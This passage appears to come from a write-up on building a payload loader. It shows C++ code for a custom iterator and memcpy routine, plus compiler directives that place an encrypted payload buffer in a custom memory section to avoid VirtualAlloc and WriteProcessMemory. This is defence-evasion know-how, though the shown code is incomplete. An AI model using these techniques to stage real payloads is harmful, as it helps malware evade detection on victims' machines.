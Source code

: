 ```cpp

        reference operator*() const { return *m_ptr; }
        RawIterator& operator++() { ++m_ptr; return *this; }
        RawIterator operator++(int) { RawIterator temp(*this); ++m_ptr; return temp; }
        bool operator==(const RawIterator& other) const { return m_ptr == other.m_ptr; }
        bool operator!=(const RawIterator& other) const { return m_ptr != other.m_ptr; }
        RawIterator& operator+=(difference_type n) { m_ptr += n; return *this; }
        RawIterator operator+(difference_type n) const { return RawIterator(m_ptr + n); }

    private:
        pointer m_ptr;
    };

    void* complicated_memcpy(void* dest, const void* src, std::size_t len) {
        auto validate = [&]() {
            if (!dest || !src) {
                throw std::invalid_argument("cooked");
            }
            };
        validate();

        auto d = static_cast<char*>(dest);
        auto s = static_cast<const char*>(src);

        RawIterator destBegin(d);

        auto copy_operation = [&]() -> RawIterator {
            return std::copy(s, s + len, destBegin);
            };

        RawIterator result = copy_operation();
        return dest;
    }
}
```

## Placement

And finally, the most interesting part, using compiler directives instead of the usual VirtualAlloc and WriteProcessMemory:
```cpp
#ifdef _MSC_VER
#pragma section(".myexec", read, write)
#pragma comment(linker, "/SECTION:.myexec,RW")
__declspec(allocate(".myexec")) static unsigned char g_execMem[sizeof(encryptedPayload)];
#else
static unsigned char g_execMem[sizeof(encryptedPayload)]
__attribute__((section(".myexec"), used));
#endif
```
